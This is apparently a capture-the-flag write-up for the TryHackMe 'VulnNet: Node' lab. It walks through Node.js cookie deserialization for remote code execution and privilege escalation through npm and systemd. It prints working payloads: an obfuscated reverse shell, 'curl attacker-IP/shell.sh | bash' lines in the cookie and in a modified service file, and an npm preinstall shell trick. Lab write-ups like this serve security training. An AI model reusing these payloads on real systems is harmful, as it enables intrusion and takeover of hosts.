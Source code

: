```yaml
---
description: Javascript
---
```


# 24 - VulnNet: Node

Room Link --> [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

### Enumertion

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -sS 10.10.234.78 -Pn -n -p- -T5 -vv

# output
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```
{% endcode %}

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Wappalyzer shows us the page is running NodeJS.

Enumerating with gobuster, ffuf returned "/login". Intercepting the request with burpsuite, we see we are already assigned a  cookie.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p>in b64 format</p></figcaption></figure>

Lets decode it, in the decoder bar i selected decode as b64.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Looking at the screenshot above we some some JSON encoded data. My first thought was maybe we could bypass the whole login process if we might change the cookie making the web application think we are admins

And i tried that first

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-O0ze1yZRIpR9WQ1puhE0g.png" alt="" height="288" width="700"><figcaption></figcaption></figure>

Next i sent the modified session cookie and the web application throws a 500 statuscode error.

\


<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

When you google NodeJS Serialization exploits, you stumble on this article: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

{% code overflow="wrap" lineNumbers="true" %}
```bash
# this is the payload.
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
{% endcode %}

We will modify the following payload a bit to get it working.

To make sure that the exploit was working i tried pinging myself. First i did set up a tcpdump listener.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

And we got some replies back.

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

#### Reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
# final payload
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.18.88.214/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}

# or we can use the nodeshell.py script on github:
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,56,46,56,56,46,50,49,52,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()","isGuest":true,"encoding": "utf-8"}
```
{% endcode %}

And got shell.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Priv Ess to Serv-manage

`sudo -l` - we can run npm with sudo as user "serv-manage"

So, we create a package.json with the following content:

<pre class="language-bash"><code class="lang-bash"><strong>echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
</strong></code></pre>

Then, we simply run `sudo -u serv-manage /usr/bin/npm i` and voila, we are logged in as `serv-manage`, which had the `user.txt` flag right in their home folder for us to read.

### Priv Esc to root

Running sudo -l again, we find that we can edit a system ditimer service called vulnnet-auto.timer

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We are in the "serv-manage" group, so we have "RW" permissions to  modify this file.

<figure><img src=".gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

Let’s use locate to find the vulnnet service we have access to and examine it.

This service appears to refer to another service vulnnet-job.service let’s take a look at it too.

{% code overflow="wrap" lineNumbers="true" %}
```bash
locate vulnnet-auto.timer.timer
ls -lah /etc/systemd/system/vulnnet-job.service
cat /etc/systemd/system/vulnnet-job.service

# modified to
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "curl 10.18.88.214/shell.sh | bash"

[Install]
WantedBy=multi-user.target


```
{% endcode %}

Note i had to create a shell.sh file then put bash one-liner rev shell in it, and serve it in python server.

<figure><img src=".gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

Done.


